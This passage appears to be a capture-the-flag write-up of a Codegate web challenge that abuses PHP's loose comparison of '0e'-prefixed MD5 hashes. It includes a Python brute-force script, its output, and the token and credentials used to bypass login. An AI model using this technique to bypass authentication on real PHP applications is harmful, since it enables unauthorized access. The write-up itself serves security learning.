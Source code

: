 

Now we know the construction of the token which appears to be a MD5 hash salted with the word "blog". It could ordinarily take a long time to find the magic number that results in this hash but we're in luck because this particular hash has a backdoor in it. By that we mean the method the PHP code does the comparison between the input and the hash is flawed. The flaw exists because PHP treats any string in the format 0eN as a number. So if we can find any other hash that meats our constraints and consists of the form 0eN then this condition will evaluate to true. I have the following code for this task:

```
#!/usr/bin/python

#
# Searches for an MD5 hash begining with 0e and containing only digits thereafter
#

import hashlib
import string
import itertools
import sys

salt = "blog"
example = "0e689047178306969035064392896674"
prefix = "0e"

assert(example[:2] == prefix)
assert(example[2:].isdigit())

print "[*] Searching for md5($salt.$string) == 0eN. where salt = " + salt

for i in itertools.product(string.ascii_letters,repeat = int(sys.argv[1])):
  pw = "".join(i)
  ma = hashlib.md5()
  salted = salt + pw
  ma.update(salted)

  if ma.hexdigest()[:2] == prefix:
    if ma.hexdigest()[2:].isdigit():
      print "[*] Found: " + ma.hexdigest() + " that comes from " + pw

```

We run and find a solution within 2 minutes:

```
root@kali:~/codegate/web/pizza# ./fpwmp.py 9
[*] Searching for md5($salt.$string) == 0eN where salt = blog
[*] Found: 0e371536854758618708164305994357 that comes from aaaajBaRM
```

So now we can login with:

  * Username: Admin
  * Password: adminpw
  * Token: aaaajBaRM

We do so and get the flag!
